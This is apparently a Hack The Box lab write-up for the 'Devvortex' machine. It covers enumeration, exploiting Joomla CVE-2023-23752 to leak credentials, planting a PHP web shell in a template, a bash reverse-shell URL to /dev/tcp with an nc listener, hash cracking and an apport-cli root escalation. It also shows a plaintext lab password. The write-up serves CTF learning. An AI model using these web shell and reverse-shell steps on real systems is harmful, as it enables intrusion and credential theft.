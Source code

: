 ```yaml
---
title: Devvortex
date: 2025-04-25
tags: [easy, linux]
---
```


### Task 1
How many open TCP ports are listening on Devvortex?

We can run a nmap to scan the ports on the target ip.

``nmap -sS <target_ip>``

![alt text](image-d-14.png)

### Task 2
What subdomain is configured on the target's web server?

Navigating to the ip address on the browser we get this nice screen.

![alt text](image-d-15.png)

This seems that the hostname cannot be resolved. Lets edit the /etc/hosts file to add the ip address to be resolved to the target domain.

``sudo vim /etc/hosts``

![alt text](image-d-16.png)

Then for finding the subdomain, we can use gobuster vhost since it is often that htb machine will use name-based virtual hosting, that is when multiple names run on a single ip address.

``gobuster vhost -u https://devvortex.htb/ -w usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt --append-domain``

![alt text](image-d-17.png)

We now found the subdomain ``dev.devvortex.htb``.

### Task 3

What Content Management System (CMS) is running on dev.devvortex.htb?

We need to add the previous subdomain we found on the hosts file as well so again, we use the command ``sudo vim /etc/hosts``.

For finding the CMS, we can use WhatWeb.

After navigating to ``usr/bin`` directory we can run ``whatweb -a 3 dev.devvortex.htb -v``

![alt text](image-d-18.png)

From this search, we could not find the CMS. We can try to dig further on the website by doing a gobuster dir seach to explore further endpoints. 

``gobuster dir -u http://dev.devvortex.htb -w common.txt``

From this search we found many endpoints with different status code that will be useful in the following task, one of them is the /administrator endpoint which is usually an interesting finding.

Navigating there we see a usual administrator login that reveals that the CMS used is Joomla.

![alt text](image-d-19.png)

We csn also find this  looking in the /robots.txt endpoint which is a file that contains the redirections and other info. 

![alt text](image-d-20.png)

<!--truncate--> 

### Task 4 

Which version of Joomla is running on the target system?

The information about Joomla version is usually on a public facing file that is located on different paths depending on the version of Joomla. It is often that the information is stores under modules diretory or under libraries but this varies. After a google search lookup we find different sources including https://www.itoctopus.com/how-to-quickly-know-the-version-of-any-joomla-website. Finally, navigating to ``http://dev.devvortex.htb/administrator/manifests/files/joomla.xml`` we find the Joomla version.

![alt text](image-d-22.png)

### Task 5

What is the 2023 CVE ID for an information disclosure vulnerability in the version of Joomla running on DevVortex?

Searching google for vulnerabilities of the specific Joomla version we found, we quickly find that the CVE-2023-23752 that affects a series of Joomla version including ours.

### Task 6

What is the lewis user's password for the CMS?

We launch metasploit ``msfconsole`` and search for the cve we found before. 

![alt text](image-d-21.png)

We then ``use 0`` to select the options, then ``set RHOSTS dev.devvortex.htb`` to set the target host and finally ``run`` to run the auxiliary. From this, we successfully get the user's password. 

![alt text](image-d-23.png)

### Task 7

We can use the credentials from previously to login as administrator on the /administrator endpoint. Navigating to System page we find that there is the template option. Under Site Templates we edit the Cassiopeia Details and Files.

![alt text](image-d-24.png)

We add this line of code ``system($_GET['cmd']);`` on the error.php file to get a reverse shell. Before navigating to  ``http://dev.devvortex.htb/templates/cassiopeia/error.php?cmd=bash -c "bash -i >%26 /dev/tcp/<local_ip>/4444 0>%261"`` we need to open a port listening for connections. We can do this by ``nc -lnvp 4444``. After navigating to that url, we obtain a shell.

![alt text](image-d-26.png)

First we spawn a proper shell so we don't get stuck onwards. 

``python3 -c 'import pty; pty.spawn("/bin/bash")'``

We can now connect to the database with the credential we found before.

``mysql -u lewis -p``
P4ntherg0t1n5r3c0n##

![alt text](image-d-27.png)

We list all tables by ``show tables;`` and then ``describe sd4fg_users;`` to see all fields for the user. There, we identfy that this is the table we are asked for by ``select username, id, password from sd4fg_users where username = 'logan';`` and see the hashed password.

![alt text](image-d-28.png)

### Task 8

From the previous task, we listed the hashed password for the logan user by using the select command. We open a new terminal and store this password on a file named ``logan.hash`` and then we can use john the ripper to crack the password so we can obtain the plain text from the hashed version. 

![alt text](image-d-29.png)

### Task 9 

Submit the flag located in the logan user's home directory.

With the password we found from the previous task, we ssh to the server with the user logan. 

![alt text](image-d-30.png)

In this user's home directory we find the user.txt that contains the user's flag.

### Task 10 

What is the full path to the binary that the lewis user can run with root privileges using sudo?

We can find the path by running ``sudo -l``.

![alt text](image-d-31.png)

### Task 11

What is the 2023 CVE ID of the privilege escalation vulnerability in the installed version of apport-cli?

With a google search, we find the id of the CVE to be CVE-2023-1326. 

### Task 12

Submit the flag located in the root user's home directory.

We start by running sudo /usr/bin/apport-cli --file-bug
![alt text](image-d-32.png)

There we press any key:

![alt text](image-d-33.png)

Then we press any key, and finally the option of view report (V) where we land in a text viewer and obtain the root shell by running ``!/bin/bash``

![alt text](image-d-34.png)

In the home directory of the root user we find the root.txt which contains the root's flag.
